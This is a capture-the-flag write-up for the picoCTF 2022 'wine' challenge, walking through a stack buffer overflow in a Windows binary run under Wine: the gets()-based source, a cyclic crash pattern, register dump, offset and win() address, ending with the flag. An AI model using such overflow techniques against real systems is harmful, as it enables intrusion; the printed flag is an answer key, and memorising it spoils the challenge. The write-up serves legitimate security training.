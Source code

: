 #pico2022 #binaryexploitation 

## Challenge:
```md
Challenge best paired with wine.
```

This challenge launches an instance.
```md
Challenge best paired with wine. I love windows. Checkout my [exe](https://artifacts.picoctf.net/c/400/vuln.exe) running on a linux box. You can view source [here](https://artifacts.picoctf.net/c/400/vuln.c). And connect with it using `nc saturn.picoctf.net 51035`
```

## Process:
Download the files.
```bash
curl -O https://artifacts.picoctf.net/c/400/vuln.exe
curl -O https://artifacts.picoctf.net/c/400/vuln.c
```
#curl 

View the source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```
#c 

There I see **gets(buf)**. Let's modify the source a bit.
```c
...
int main(int argc, char **argv)
{
  printf("Vuln addr: %p\n", vuln);
  printf("Win addr: %p\n", win);
  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```
#c 

Let's find the **win()** function address.
![[052_wine-0.png]]
#objdump #grep 

```
00401530 win
```

Running the program.
```bash
wine ./vuln.exe
```
#wine

Passing this overflow pattern:
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

Gives me:
```
wine: Unhandled page fault on execute access to 37654136 at address 37654136 (thread 0024), starting debugger...
Unhandled exception: page fault on execute access to 0x37654136 in 32-bit code (0x37654136).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:37654136 ESP:0067fe80 EBP:65413565 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0067fdf0 EBX:00270eac ECX:0067fd80 EDX:ffffffff
 ESI:00000050 EDI:0011803c
Stack dump:
0x0067fe80:  41386541 61413965 31614130 41326141
0x0067fe90:  61413361 35614134 41366141 61413761
0x0067fea0:  39614138 41306241 62413162 33624132
0x0067feb0:  41346241 62413562 37624136 41386241
0x0067fec0:  63413962 31634130 41326341 63413363
0x0067fed0:  35634134 41366341 63413763 39634138
```

Conversion:
```python
#!/usr/bin/env python3

import codecs

h = codecs.decode('37654136', 'hex')
print(h)
```
#python 

```bash
python conv.py
```
#python 

```
b'7eA6'
```

Which would be:
```
6Ae7
```

![[052_wine-1.png]]

And here's the exploit.
![[052_wine-2.png]]
#ipython3 #python #pwntools 

Flag given.
```bash
echo "picoCTF{Un_v3rr3_d3_v1n_acdf9f0a}" > flag.txt
```
#echo 

**Flag: *picoCTF{Un_v3rr3_d3_v1n_acdf9f0a}***
